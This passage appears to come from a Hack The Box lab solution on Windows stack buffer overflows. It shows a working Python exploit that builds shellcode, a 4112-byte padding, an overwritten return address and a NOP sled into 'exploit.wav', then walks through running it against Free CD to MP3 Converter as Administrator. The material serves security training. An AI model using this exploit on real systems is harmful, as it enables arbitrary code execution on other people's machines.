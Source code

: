 ```python
    buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
    buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
    buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
    buf += b"\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00"

    offset = 4112
    buffer = b"A" * offset
    EIP = pack('<L', 0x00457418)
    NOP = b"\x90" * 32
    payload = buffer + EIP + NOP + buf

    with open('exploit.wav', 'wb') as file:
        file.write(payload)

exploit()
```

All of the components of the script are similar to the ones before, except for the addition/modification of:

Code: python

```python
from struct import pack
EIP = pack('<L', 0x00457418)
NOP = b"\x90" * 32
payload = buffer + EIP + NOP + buf
```

The first line imports the `pack` function from the `struct` library, while the second line specifies the return address (converted from hex to a `Little Endian` memory address) that will execute the shellcode (i.e., contained in the "buf" variable) which will be written on the stack. The address chosen is the one found in Question 1 of the section "Finding a Return Instruction". The variable "NOP" holds the number of `NOP` instructions added before the shellcode, and at last, the variable "payload" appends all of the variables together to formulate the complete exploit payload written to the "exploit.wav" file.

Using the same RDP connection from question 1 of the section "Debugging Windows Programs", and after running the Python script, students will have the "exploit.wav" file on the Desktop directory:

![[HTB Solutions/Others/z. images/96995cd77d6c8474ba39127775e94269_MD5.jpg]]

Afterward, students need to open the Documents directory and find the shortcut to the program `Free CD to MP3 Converter` which runs as Administrator:

![[HTB Solutions/Others/z. images/161874bf7066151cfe0063218a75d72a_MD5.jpg]]

After executing it, students need to click on "Encode" inside of the program and navigate to their "htb-student" directory found under Users and choose the "exploit.wav" file in Desktop:

![[HTB Solutions/Others/z. images/e927c560dc1c7eaa6f569906e2ec7dbe_MD5.jpg]]

![[HTB Solutions/Others/z. images/3095a1f2031492b3bd84291193bd0299_MD5.jpg]]
